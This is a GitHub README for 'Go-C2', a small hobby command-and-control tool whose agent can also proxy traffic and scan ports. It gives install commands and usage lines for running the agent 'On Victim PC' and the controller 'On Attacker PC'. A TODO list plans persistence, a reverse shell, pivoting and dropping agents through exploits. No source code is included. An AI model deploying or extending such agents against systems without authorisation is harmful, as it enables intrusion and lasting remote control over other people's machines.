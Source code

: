 

# Go-C2 v0.1

## What is this? 
This is a fairly small tool I wrote that acts as a sort of C2 and an Agent for that C2, additionally the Agent can act as a proxy server when needed.

## Why? 
Because I was annoyed that metasploit's meterpreters don't have a port scanning option so I implemented one myself


## Features:
* C2 client
* Agent

## Installing:
```sh
git clone https://github.com/mrLochness350/Go-C2.git
cd Go-C2
chmod +x install.sh
./install.sh
```
# Usage:

**On Victim PC**
```sh
$ ./Agent_linux_amd64 -c <C2 Address> -p <C2 Port>
```

**On Attacker PC**
```sh
$ ./C2_linux_amd64 -c <Agent Address> -p <Agent Port>
```


# TODO:

### General:
* Encrypt C2/Agent traffic
* Add 2-way authentication to avoid snooping
* ~~Make the connection a reverse shell~~

### Agent
* Fix proxy problems
* Add extra verbosity
* Add background option
* Add option to drop into shell and not only execute code via the `shell` argument
* Add option to host the C2 from the Agent as a pivot-point
* Add persistence option

### C2
* Add multiple host listeners
* Add option to drop Agent via exploits
* Make the cli more interactive
* Execute commands on an Agent from the cli 
* ~~Add Logging function~~